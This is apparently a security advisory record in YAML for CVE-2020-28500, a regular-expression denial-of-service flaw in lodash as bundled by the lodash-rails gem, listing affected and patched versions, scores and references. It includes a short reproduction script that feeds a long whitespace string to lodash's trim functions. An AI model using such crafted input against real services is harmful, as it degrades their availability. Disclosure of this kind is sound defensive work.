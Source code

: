 ```yaml
---
layout: advisory
title: 'CVE-2020-28500 (lodash-rails): Regular Expression Denial of Service (ReDoS)
  in lodash'
comments: false
categories:
- lodash-rails
advisory:
  gem: lodash-rails
  cve: 2020-28500
  ghsa: 29mw-wpgm-hmr9
  url: https://github.com/advisories/GHSA-29mw-wpgm-hmr9
  title: Regular Expression Denial of Service (ReDoS) in lodash
  date: 2022-01-06
  description: |
    All versions of package lodash prior to 4.17.21 are vulnerable
    to Regular Expression Denial of Service (ReDoS) via the
    `toNumber`, `trim` and `trimEnd` functions.

    Steps to reproduce (provided by reporter Liyuan Chen):

    ```
      var lo = require('lodash');

      function build_blank(n) {
         var ret = "1"
         for (var i = 0; i < n; i++) {
             ret += " "
         }
         return ret + "1";
     }
     var s = build_blank(50000) var time0 = Date.now();
     lo.trim(s)
     var time_cost0 = Date.now() - time0;
     console.log("time_cost0: " + time_cost0);
     var time1 = Date.now();
     lo.toNumber(s) var time_cost1 = Date.now() - time1;
     console.log("time_cost1: " + time_cost1);
     var time2 = Date.now();
     lo.trimEnd(s);
     var time_cost2 = Date.now() - time2;
     console.log("time_cost2: " + time_cost2);
    ```
  cvss_v2: 5.0
  cvss_v3: 5.3
  patched_versions:
  - ">= 4.17.21"
  related:
    url:
    - https://nvd.nist.gov/vuln/detail/CVE-2020-28500
    - https://github.com/lodash/lodash/pull/5065
    - https://github.com/lodash/lodash/pull/5065/commits/02906b8191d3c100c193fe6f7b27d1c40f200bb7
    - https://github.com/lodash/lodash/blob/npm/trimEnd.js
    - https://snyk.io/vuln/SNYK-JS-LODASH-1018905
    - https://snyk.io/vuln/SNYK-JAVA-ORGFUJIONWEBJARS-1074896
    - https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARS-1074894
    - https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSBOWER-1074892
    - https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSBOWERGITHUBLODASH-1074895
    - https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSNPM-1074893
    - https://www.oracle.com//security-alerts/cpujul2021.html
    - https://www.oracle.com/security-alerts/cpuoct2021.html
    - https://www.oracle.com/security-alerts/cpujan2022.html
    - https://www.oracle.com/security-alerts/cpujul2022.html
    - https://cert-portal.siemens.com/productcert/pdf/ssa-637483.pdf
    - https://github.com/lodash/lodash/commit/c4847ebe7d14540bb28a8b932a9ce1b9ecbfee1a
    - https://security.netapp.com/advisory/ntap-20210312-0006
    - https://github.com/advisories/GHSA-29mw-wpgm-hmr9
---
```

